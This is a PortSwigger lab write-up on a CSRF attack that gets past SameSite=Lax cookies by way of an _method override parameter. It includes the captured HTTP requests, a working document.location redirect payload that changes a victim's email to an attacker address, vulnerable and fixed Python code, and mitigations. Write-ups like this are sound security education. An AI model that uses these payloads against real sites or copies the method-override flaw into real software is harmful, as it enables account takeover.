

# Lab 07: SameSite Lax Bypass via Method Override

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 07
> **Platform**: PortSwigger Web Security Academy

## Category
CSRF — SameSite Lax Bypass via HTTP Method Override

## Vulnerability Summary
The application sets its session cookie with `SameSite=Lax`, which blocks cross-site POST requests from carrying the cookie. However, the server supports an `_method` parameter that overrides the HTTP method — a GET request with `_method=POST` is treated as a POST server-side. Since `SameSite=Lax` permits cookies on top-level cross-site GET navigations, an attacker can trigger a state-changing "POST" using a plain redirect, bypassing the SameSite protection entirely without needing a CSRF token.

## Attack Methodology

### Step 1: Recon
Logged in and intercepted the email-change request:

```
POST /my-account/change-email HTTP/2
Host: 0ade00b50411f26c83e54ddd00d200f3.web-security-academy.net
Cookie: session=UoGCliUThz6FaexDlRdQaGoU6mDONRTK

email=test%40test.com
```

No CSRF token — the only protection is the `SameSite=Lax` cookie attribute, which prevents cross-site POST requests from including the session cookie.

### Step 2: Discovering Method Override Support
Tested sending the same request as a GET with parameters in the query string and `_method=POST`:

```
GET /my-account/change-email?email=thakgayabhai%40gmail.com&_method=POST HTTP/2
Host: 0ade00b50411f26c83e54ddd00d200f3.web-security-academy.net
Cookie: session=UoGCliUThz6FaexDlRdQaGoU6mDONRTK

→ HTTP/2 302 Found
   Location: /my-account?id=wiener
```

The server accepted it — the email was changed. The `_method=POST` parameter causes the framework to process the GET request as if it were a POST.

### Step 3: The SameSite Lax Gap
`SameSite=Lax` blocks cookies on cross-site **sub-resource** requests (images, fetch, XHR, form POSTs) but **allows** cookies on cross-site **top-level navigations** using safe HTTP methods (GET, HEAD). A `document.location` redirect is a top-level navigation — the browser sends the `SameSite=Lax` cookie.

Combined with method override: a cross-site top-level GET navigation → cookie sent → server treats it as POST → state changed.

### Step 4: Crafting the Exploit
A single-line script on the exploit server is sufficient:

```html
<script>
document.location = "https://0ade00b50411f26c83e54ddd00d200f3.web-security-academy.net/my-account/change-email?email=pwned-victim@attacker.com&_method=POST";
</script>
```

No cookie injection, no CSRF token needed — just a redirect.

### Step 5: Delivering the Exploit
- Pasted the payload into the Exploit Server body
- Clicked **Store** then **Deliver exploit to victim**

### Step 6: Results



Lab marked as **Solved** — victim's email successfully changed.

## Technical Root Cause

```python
# ❌ Vulnerable — method override turns a GET into a POST
# Framework processes _method param before checking actual HTTP method
def dispatch(request):
    method = request.GET.get('_method', request.method).upper()
    # SameSite=Lax allowed the cookie on this GET, now it's treated as POST
    return handle_post(request)

# ✅ Secure — never override method on state-changing endpoints
# AND require a CSRF token regardless of SameSite
def dispatch(request):
    if request.method != 'POST':
        return HttpResponseNotAllowed(['POST'])
    validate_csrf(request)
    return handle_post(request)
```

### Why This Works

| Scenario | Request Type | SameSite=Lax Sends Cookie? | Server Treats As | Result |
|----------|-------------|---------------------------|-----------------|--------|
| Legitimate cross-site POST form | POST | ❌ No | POST | ❌ Blocked |
| Cross-site GET navigation (no override) | GET | ✅ Yes | GET (read-only) | ✅ Safe |
| Cross-site GET + `_method=POST` | GET | ✅ Yes | POST | ✅ Yes — **vulnerable** |

## Impact
- **SameSite=Lax Fully Bypassed**: The intended protection is rendered useless by the method override feature
- **No CSRF Token Required**: The endpoint has no token — SameSite was the sole defence
- **Account Takeover**: Email change → password reset to attacker's inbox → full takeover
- **Zero User Interaction Beyond Page Load**: A simple redirect is enough

## Proof of Concept

**Minimal**
```html
<script>
document.location = "https://TARGET/my-account/change-email?email=attacker@evil.com&_method=POST";
</script>
```

**Full Exploit (as used)**
```html
<script>
document.location = "https://0ade00b50411f26c83e54ddd00d200f3.web-security-academy.net/my-account/change-email?email=pwned-victim@attacker.com&_method=POST";
</script>
```

## Key Takeaways
1. **SameSite=Lax Is Not a CSRF Silver Bullet**: It blocks cross-site POSTs but not top-level GET navigations. Any server-side behaviour that turns a GET into a state change breaks this guarantee.
2. **Method Override Is Dangerous on State-Changing Endpoints**: `_method`, `X-HTTP-Method-Override`, and similar patterns were designed for REST clients that can't send PUT/DELETE — they should never be enabled on endpoints that modify user data.
3. **`document.location` Counts as a Top-Level Navigation**: Unlike `fetch` or `XMLHttpRequest`, a redirect via `document.location` is treated as a navigation by the browser and gets Lax cookies.
4. **Defence in Depth**: SameSite alone is not enough. CSRF tokens should also be present so that bypassing one control doesn't immediately yield a working attack.
5. **Check for Override Headers Too**: `X-HTTP-Method-Override` and `X-Method-Override` headers can have the same effect — test all of them.

## Mitigation

### 1. Disable Method Override on Sensitive Endpoints
```python
# Only allow the real HTTP method — ignore _method entirely
@require_POST
def change_email(request):
    ...
```

### 2. Add a CSRF Token (defence in depth)
```python
# SameSite + CSRF token — bypass of one doesn't break the other
def change_email(request):
    validate_csrf(request)
    ...
```

### 3. Use SameSite=Strict for Session Cookies
```http
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly
```
`Strict` blocks cookies on all cross-site requests, including top-level navigations — this would have prevented the attack.

### 4. Validate the Origin Header
```python
if request.META.get('HTTP_ORIGIN') != 'https://yourdomain.com':
    return HttpResponseForbidden()
```

## References
- [PortSwigger CSRF Lab - SameSite Lax Bypass via Method Override](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)
- [PortSwigger SameSite Cookie Restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium
- PortSwigger Exploit Server

---

*Lab completed on: 2026-04-17*
*Writeup by vibhxr*
